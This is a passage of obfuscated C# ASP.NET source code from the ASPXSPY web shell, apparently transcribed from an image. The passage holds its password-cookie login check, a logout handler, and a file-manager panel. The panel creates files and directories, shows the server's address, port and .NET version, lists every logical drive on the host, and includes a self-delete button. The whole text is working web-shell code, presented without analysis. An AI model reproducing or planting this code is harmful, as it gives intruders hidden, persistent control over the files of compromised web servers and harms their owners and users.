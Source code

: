 if(Request.Cookies[vbhLn]==null)
{
tZSx();
return false;
}
else
{
if (Request.Cookies[vbhLn].Value != Password)
{
tZSx();
return false;
}
else
{
return true;
}
}
}
public void tZSx()
{
ljtzC.Visible=true;
ZVS.Visible=false;
}
protected void YKpI(object sender,EventArgs e)
{
Session.Abandon();
Response.Cookies.Add(new HttpCookie(vbhLn,null));
tZSx();
}
public void PBZw()
{
ZVS.Visible=true;
ljtzC.Visible=false;
Bin_Button_CreateFile.Attributes["onClick"]="var filename=prompt('Please input the file name:','');if(filename){Bin_PostBack('Bin_Createfile',filename);}";
Bin_Button_CreateDir.Attributes["onClick"]="var filename=prompt('Please input the directory name:','');if(filename){Bin_PostBack('Bin_Createdir',filename);}";
Bin_Button_KillMe.Attributes["onClick"]="if(confirm('Are you sure delete ASPXSPY?')){Bin_PostBack('hae','');};";
Bin_Span_Sname.InnerHtml=Request.ServerVariables["LOCAL_ADDR"]+":"+Request.ServerVariables["SERVER_PORT"]+"("+Request.ServerVariables["SERVER_NAME"]+")";
Bin_Span_FrameVersion.InnerHtml="Framework Ver : "+Environment.Version.ToString();
if (AXSbb.Value==string.Empty)
{
AXSbb.Value=OElM(Server.MapPath("."));
}
Bin_H2_Title.InnerText="File Manager &gt;&gt;";
krIR(AXSbb.Value);
}
public void fhAEn()
{
try
{
string[] YRgt=Directory.GetLogicalDrives();
for(int i=0;i&lt;YRgt.Length;i++)
{
Control c=ParseControl(" &lt;asp:LinkButton Text='"+mFvj(YRgt[i])+"' ID=\"Bin_Button_Driv"+i+"\" runat='server' commandargument= '"+YRgt[i]+"'/&gt; | ");
Bin_Span_Drv.Controls.Add(c);
LinkButton nxeDR=(LinkButton)Page.FindControl("Bin_Button_Driv"+i);
nxeDR.Command+=new CommandEventHandler(this.iVk);
}
}catch(Exception ex){}
}